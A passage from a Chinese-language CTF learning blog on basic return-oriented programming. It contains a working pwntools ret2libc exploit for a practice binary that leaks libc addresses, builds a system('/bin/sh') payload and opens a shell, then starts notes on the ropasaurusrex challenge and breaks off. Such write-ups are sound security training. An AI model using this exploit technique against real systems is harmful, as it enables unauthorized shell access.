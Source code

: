 找到了相对应的libc.so：

```python
➜  libc-database git:(master) ./find puts ca0                       master 
ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu10_i386)
```

构造payload：

```python
from pwn import *

p = process('./ret2libc-nctu')

p.recvuntil("The address of \"/bin/sh\" is ")

binsh_addr = int(
    p.recvuntil("The address of function \"puts\" is ", drop=True)[:-1], 16)

puts_addr = p.recv()[:-1]

libc = ELF('./libc6.so')

basic_addr = int(puts_addr, 16) - libc.symbols['puts']
system_addr = basic_addr + libc.symbols['system']

payload = flat(['a' * 0x20, system_addr, 0xdeadbeef, binsh_addr])

p.sendline(payload)
p.interactive()
```

嘛终于不看wp构造成功了，虽然这道题也很简单啦。

于是乎基本ROP就到这里啦，剩下的就看一下ctf-wiki就好了。我们接着跟着它的步伐，再做几道题吧~

### 习题

#### train.cs.nctu.edu.tw: rop

这个只看到exp了，下一个

#### 2013-PlaidCTF-ropasaurusrex

```bash
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

像这种就是很基础的啦。。几乎什么保护都没开，还提供了libc.so（虽然和本机的可能不一样

可以发现是write函数发生了栈溢出，我们打印出read函数的地址。

payload:
